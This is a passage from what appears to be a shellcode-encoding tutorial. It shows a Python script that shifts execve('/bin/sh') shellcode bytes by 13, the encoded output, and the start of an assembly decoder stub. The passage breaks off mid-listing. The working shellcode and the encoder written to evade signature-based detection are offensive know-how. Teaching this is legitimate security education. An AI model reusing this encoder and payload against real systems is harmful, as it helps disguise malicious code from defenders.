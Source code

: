     shellcode = ("\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\xb0\x0b\xcd\x80")  
      
    magic = 13  
      
    encoded1 = ""  
    encoded2 = ""  
      
    for i in bytearray(shellcode):  
     j = (i + magic)%256  
     encoded1 += '\\x'  
     encoded1 += '%02x' %j  
      
     encoded2 += '0x'  
     encoded2 += '%02x, ' %j  
      
    print "Format 1: {0}".format(encoded1)  
    print "Format 2: {0}".format(encoded2)  
    

  
  

    
    
    abatchy@ubuntu:~/Desktop/work$ python encoder.py   
    Format 1: \x3e\xcd\x5d\x96\xef\x75\x3c\x3c\x80\x75\x75\x3c\x6f\x76\x7b\x96\xf0\x5d\xbd\x18\xda\x8d  
    Format 2: 0x3e, 0xcd, 0x5d, 0x96, 0xef, 0x75, 0x3c, 0x3c, 0x80, 0x75, 0x75, 0x3c, 0x6f, 0x76, 0x7b, 0x96, 0xf0, 0x5d, 0xbd, 0x18, 0xda, 0x8d,  
    

  
As you can notice, bytes have been incremented by **13**, so **31** becomes
**3e**, **c0** becomes **cd** and so on.  
  

#### 2\. Write assembly wrapper including decoding stub

####  

Next, we'll write an assembly wrapper to decode the shellcode and execute it.
Notice that we don't have a way to know size of the shellcode, so we'll hard
code its size for now, followed by a nice improvement to get rid of that.  
  

    
    
    ; Rot13ExecveSh.asm  
    ; by Abatchy  
    ;  
    ;   nasm -felf32 Rot13Encoder.asm && ld -o Rot13Encoder Rot13Encoder.o  
    ; Generated shellcode:   
      
    global _start  
      
    section .text  
      
    _start:  
          
        jmp short get_shellcode_addr    ; Get address of shellcode  
      
    ReturnLabel:  
        pop esi                 ; Store address of "shellcode" in esi  
        xor eax, eax  
        mov al, 22  
    decode:  
        sub byte [esi], 13      ; Decode byte at [esi]  
        dec al  
        jz shellcode              
        inc esi  
        jmp short decode  
      
